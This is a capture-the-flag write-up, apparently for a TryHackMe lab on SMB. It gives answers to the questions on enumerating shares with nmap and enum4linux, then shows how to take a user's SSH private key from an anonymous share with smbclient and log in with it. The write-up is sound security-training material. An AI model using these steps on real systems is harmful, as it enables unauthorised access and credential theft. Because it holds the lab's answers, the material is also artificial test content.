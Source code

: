
# SMB (Server Message Block) Protocol

Port: 445, 139, 137, 138
## Overview

- **SMB** is a client-server *communication protocol* for sharing access to files, printers, serial ports, and other network resources.
- **Servers** expose file systems and resources (printers, named pipes, APIs) to clients.
- **Clients** connect using:
  - **TCP/IP** (NetBIOS over TCP/IP, per RFC1001 & RFC1002)
  - **NetBEUI**
  - **IPX/SPX**

![SMB](https://github.com/user-attachments/assets/a0cf4470-ece6-4b9c-8392-eea1c021ccc9)


#### Samba
- Provides SMB support for Unix systems.
- Compatible since Windows 95.

#### Solutions: 

1. What does SMB stand for?
```plaintext 
Server Message Block
```

2. What type of protocol is SMB? 
```plaintext
response-request`
```

3. What protocol suite do clients use?
```plaintext
TCP/IP
```

4. What systems does Samba run on?
```plaintext
Unix
```
---

# Enumerating SMB

Gathering information on usernames, passwords, shares, etc.
#### Tools
1. **Nmap** – Basic SMB port scanning.
2. **Enum4Linux** – Comprehensive SMB enumeration.

#### Enum4Linux Usage
```bash
enum4linux [options] <IP>
```

| **Tag** | **Function**                     |
|---------|----------------------------------|
| `-U`    | Get userlist                    |
| `-M`    | Get machine list                |
| `-N`    | Get namelist dump               |
| `-S`    | Get sharelist                   |
| `-P`    | Get password policy info        |
| `-G`    | Get group and member list       |
| `-a`    | Full basic enumeration         |

**Data Collected:**
- Workgroup name
- OS version
- Usernames & passwords
- Open SMB ports
- Machine name
- Available shares
#### Solutions:

1. Conduct an **nmap** scan of your choosing, How many ports are open?
```plaintext
3
```

2. What ports is **SMB** running on? Provide the ports in ascending order.
```plaintext
139,445
```

3. Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the **workgroup** name?
```plaintext
WORKGROUP
```

4. What comes up as the **name** of the machine?
```plaintext
POLOSMB
```

5. What operating system **version** is running?
```plaintext
6.1
```

6. What share sticks out as something we might want to investigate?
```plaintext
profiles
```
---

# Exploiting SMB

Common vulnerabilities include:
- **CVE-2017-7494** (Remote Code Execution)
- **Anonymous SMB Access** (Misconfiguration leading to info leaks)

#### Exploitation Method: 
From enumeration, we typically know:
- SMB share location (e.g., `workgroup: workgroup`)
- Interesting share names (e.g., `profiles`)

#### SMBclient
Connect to an SMB share:
```bash
smbclient //<IP>/<SHARE> -U <USERNAME> -p <PORT>
```
**Example:**
```bash
smbclient //10.10.10.2/secret -U suit -p 445
```

**Useful Commands Inside SMB Shell:**

| Command       | Description                     |
| ------------- | ------------------------------- |
| `help`        | List available commands         |
| `ls`          | List files                      |
| `cd <dir>`    | Change directory                |
| `mget <file>` | Download file                   |
| `more <file>` | View file contents (like `cat`) |

Here's your requested format:

#### Solutions:

1. What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?
```bash
smbclient //10.10.10.2/secret -U suit -p 445
```

2. Does the share allow anonymous access? Y/N?
```plaintext
Y
```

3. Who can we assume this profile folder belongs to?
```plaintext
John Cactus
```

4. What service has been configured to allow him to work from home?
```plaintext
ssh
```

5. What directory on the share should we look in?
```plaintext
.ssh
```

6. Which of these keys is most useful to us?
```plaintext
id_rsa
```

Download command used:
```smbclient
mget id_rsa download_id_rsa
```

SSH into the target server: 
```bash 
ssh cactus@<target_ip> -i download_id_rsa
```

8. What is the smb.txt flag?
```plaintext
THM{smb_is_fin_eh?}
```

